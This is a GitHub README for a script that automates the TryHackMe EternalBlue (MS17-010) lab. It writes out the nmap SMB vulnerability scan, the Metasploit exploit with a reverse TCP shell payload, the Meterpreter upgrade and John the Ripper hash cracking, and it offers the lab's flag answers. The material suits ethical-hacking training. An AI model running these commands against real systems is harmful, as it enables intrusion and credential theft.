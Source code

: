 # 🔐 EternalBlue Lab Automation Script – TryHackMe

> 🧠 **For Educational Use Only**  
> Automates the EternalBlue exploitation lab on TryHackMe including scanning, exploiting MS17-010, and capturing flags.

---

## 📁 Features

- 📖 **Lab Description** with detailed background on EternalBlue
- 📋 **Checklist** to keep track of key lab tasks
- 🔌 **VPN Connection Setup** with `.ovpn` file
- ⚔️ **Metasploit-based Exploitation** using EternalBlue
- 🧠 **Post-Exploitation Commands** for Meterpreter shell
- 🔐 **Password Hash Cracking** with John the Ripper
- 🏁 **Flag Discovery** with hints and answers
- ![image](https://github.com/user-attachments/assets/379b023e-0c63-49b1-9189-db3ef3e34d4b)


---

## 🚀 How to Use

git clone https://github.com/Kun31-cpu/Eternalblue-lab.git
cd eternalblue-lab
chmod +x eternalblue-lab.sh
dos2unix eternalblue-lab.sh
./eternalblue-lab.sh

🧪 Menu Options
Option	Description
1️⃣	View Lab Description
2️⃣	View Task Checklist
3️⃣	Connect to VPN Only (.ovpn file required)
4️⃣	Start Full Exploitation Lab
5️⃣	View Questions and Answers for THM tasks
6️⃣	Exit

🛠️ Tools Used
Nmap – Port scanning and vulnerability detection

Metasploit – Exploitation of MS17-010 (EternalBlue)

John the Ripper – Cracking NTLM hashes

OpenVPN – VPN connection to TryHackMe network

nmap -p 445 --script smb-vuln* <TARGET_IP>

# Metasploit
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <TARGET_IP>
set LHOST <YOUR_IP>
set PAYLOAD windows/x64/shell/reverse_tcp
exploit -j

# Post Exploitation
use post/multi/manage/shell_to_meterpreter
set SESSION <session_id>
exploit -j

# Cracking Passwords
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

🎯 Learning Objectives
✅ Understand EternalBlue and MS17-010
✅ Identify vulnerable SMB services
✅ Exploit Windows targets with Metasploit
✅ Practice real-world post-exploitation
✅ Learn ethical hacking techniques responsibly

⚠️ Disclaimer
This script is strictly for educational purposes.
Do NOT scan, exploit, or access unauthorized systems.
Always follow legal and ethical guidelines.

👨‍💻 Author
Kuntal Bera
Cybersecurity Student | Ethical Hacking Enthusiast

⭐ Give it a Star!
If you found this useful, consider starring the repository ❤️

⭐ github.com/yourname/eternalblue-lab

